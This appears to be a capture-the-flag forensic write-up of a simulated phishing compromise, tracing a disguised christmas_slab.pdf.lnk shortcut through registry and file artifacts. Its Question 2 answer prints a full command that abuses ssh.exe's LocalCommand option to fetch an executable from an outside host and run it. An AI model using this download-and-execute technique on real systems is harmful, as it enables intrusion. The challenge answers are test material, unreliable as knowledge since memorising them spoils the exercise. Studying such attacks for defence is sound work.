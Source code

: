 # **OpTinselTrace24-1 Sneaky Cookies Writeup**
![image](https://github.com/user-attachments/assets/cddeec66-577e-4e30-99a6-371270a69f03)

Krampus, the cyber threat actor, infiltrated Santa Workshop's digital infrastructure. After last year’s incident, Santa notified the team to be aware of social engineering and instructed the sysadmin to secure the environment. Bingle Jollybeard, who is an app developer and will be workinremotely from the South Pole, was visiting the workshop to set up his system for remote access. His workstation was mysteriously compromised and potentially paved the way for Krampus to wreck chaos again this season. Figure out what happened using the artifacts provided by the beachhead host.

**Tools:**
- Registry explorer
- Timeline Explorer
- bmc-tools
- SrumECmd
**Learned:**
- Timeline Analysis
- RDP Forensics
- Lateral Movement Analysis
- Static Malware Analysis
- C2 Framework Analysis

Initial analysis we are given a drive image.
### **Question 1**
Krampus, a notorious threat actor, possibly social-engineered bingle as email security filters were offline for maintenance. Find any suspicious files under Bingle Jollybeard User directory and get back to us with the full file name

	I took to the users NTUSER.dat hiev as this shows user specific configs and settings. I saw the christmas_slab.pdf but the target location was using another program to get the stager of the malware installed

	In this registry key, Software\Microsoft\Windows\CurrentVersion\Explorer\ComDlg32\OpenSavePidlMRU. I found the file that the user opened and I thought it was a double extension of some sort because the original I found was wrong which made me think it was a double extension

![image](https://github.com/user-attachments/assets/29ec4893-6994-4081-8dd3-ab286a53bc94)

**Answer:** christmas_slab.pdf.lnk
### **Question 2**
Using the malicious file sent as part of phishing, the attacker abused a legitimate binary to download and execute a C&C stager. What is the full command used to download and execute the C&C Binary?

	Under the documents direcotry I found the 'christmas_slab.pdf' whose icon was an executeable which didn't look right. Opening up the properties I can see it is abusing a legitmate binary ssh.exe to establish a connection

![image](https://github.com/user-attachments/assets/82f378ca-787c-4127-b093-f1ca3facea68)

**Answer:** C:\Windows\System32\OpenSSH\ssh.exe -o "PermitLocalCommand=yes" -o "StrictHostKeyChecking=no" -o "LocalCommand=scp root@17.43.12.31:/home/revenge/christmas-sale.exe c:\users\public\. && c:\users\public\christmas-sale.exe" revenge@17.43.12.31
### **Question 3**
When was this file ran on the system by the victim?
